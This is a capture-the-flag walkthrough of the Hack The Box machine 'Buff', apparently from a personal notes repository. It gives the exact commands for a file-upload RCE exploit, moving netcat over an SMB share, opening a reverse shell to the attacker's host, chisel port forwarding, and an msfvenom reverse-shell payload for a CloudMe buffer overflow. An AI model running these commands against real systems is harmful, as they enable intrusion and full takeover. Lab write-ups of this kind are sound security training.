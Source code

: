# Buff

### Reconnaissance

- port 7680/tcp pando-pub Pando file management software
- port 8080/tcp HTTP

mrb3n's Bro Hut, made using Gym Management Software 1.0

### Exploitation

Vulnerable to Unauthenticated RCE through file upload https://www.exploit-db.com/exploits/48506

Run the exploit to get a webshell on the target

`python2.7 48506.py 'http://10.10.10.198:8080/`

We can upgrade our shell with `nc64.exe` https://github.com/int0x33/nc.exe

Start an SMB server in our uploads directory

`impacket-smbserver -smb2support share -username s -password s`

Connect to it from the webshell

`C:\xampp\htdocs\gym\upload> net use \\10.10.10.10\share /u:s s`

Copy nc64.exe to the target and get a reverse shell

```
C:\xampp\htdocs\gym\upload> copy \\10.10.14.7\share\nc64.exe C:\ProgramData\nc.exe
C:\xampp\htdocs\gym\upload> C:\ProgramData\nc.exe 10.10.10.10 443 -e cmd.exe
```

### Privilege Escalation

Manual enumeration was very important for Buff, using `netstat -ano | findstr TCP | findstr ":0` we 
can see that a process is listening on port 3306 and on port 8888 (only appears intermittently!) locally

Find the executable listening on the port (not reliable, the PID changes very quickly)

`tasklist /v | findstr <PID>`

Port 3306 is mysql for XAmpp likely the user database for the website, but 8888 is CloudMe.exe

Search C:\ for CloudMe

`dir C:\ /s /b | findstr CloudMe"`

We find the CloudMe exe in Shaun's Downloads

![CloudMe](./pictures/cloudme.png)

Searchsploit shows a couple of buffer overflows that match the version

![CloudMe](./pictures/cloudme-searchsploit.png)

As it's locally hosted we need to use chisel to expose the port on our machine, run chisel in server mode on 
the attacking machine

`chisel server -p 8000 --reverse`

Upload chisel to the target with our SMB share and run it in client mode

`.\chisel.exe client 10.10.10.10:8000 R:8888:localhost:8888`

Using the remote exploit 48389.py, replace the shellcode for calc.exe with a generic windows/shell_reverse_tcp
generated with msfvenom and add `import sys` or replace `sys.exc_value` with e

`msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload `

Start a netcat listener with rlwrap (Important, won't work otherwise!), swap the shellcode and run the 
exploit to get an Administrator shell

### Lessons Learned

- XAmpp uses php + mysql

- Find local listening network connections with `netstat -ano | findstr TCP | findstr ":0"` the last column 
is the PID

- Find executables running with `tasklist /v`, and with their PID `tasklist /v | findstr <PID>`

- Find file locations with `dir C:\ /s /b | findstr <filename>`

- Use `-v name` with msfvenom shellcode to replace the default variable name

- Use rlwrap to catch shells with netcat to avoid pain and suffering
